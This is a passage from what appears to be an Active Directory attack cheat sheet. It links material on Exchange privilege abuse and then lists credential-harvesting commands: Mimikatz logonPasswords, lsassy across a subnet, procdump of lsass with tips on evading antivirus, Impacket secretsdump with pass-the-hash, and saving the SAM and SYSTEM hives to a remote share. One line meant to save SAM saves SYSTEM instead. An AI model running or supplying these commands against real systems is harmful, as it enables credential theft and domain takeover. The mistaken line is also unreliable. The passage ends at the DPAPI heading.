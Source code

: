 #### Exchange Abuse
- [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

### Credential Harvesting

#### LSASS

##### Mimikatz
```
# On the machine (AV might block it)
.\mimikatz.exe "sekurlsa::logonPasswords full" exit

# Locally from a minidump
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" exit
```
##### Lsassy
```
lsassy -d <domain_name> -u <user> -p <password> -r -vv 10.10.10.10
lsassy -d <domain_name> -u <user> -p <password> -dc-ip 10.10.10.10 -r --procdump /path/to/procdump -vv 10.10.10.0/24
```
##### Procdump
```
# Dump lsass memory (PID might bypass AVs)
.\procdump64.exe -accepteula -ma lsass.exe lsass
.\procdump64.exe -accepteula -ma <lsass_pid> lsass

# Parse the dump locally on windows (see above) or with pypykatz
pypykatz lsa minidump lsass.dmp
```

#### SAM

##### Impacket
```
secretsdump.py <domain_name>/<user>:<password>@10.10.10.10
secretsdump.py <domain_name>/<user>@10.10.10.10 -hashes :<nt_hash>

# Locally
# Dump SYSTEM, SAM hives
reg save HKLM\SYSTEM \\10.10.10.150\share\SYSTEM
reg save HKLM\SYSTEM  \\10.10.10.150\share\SAM
secretsdump.py -sam SAM -system SYSTEM local
```

#### DPAPI
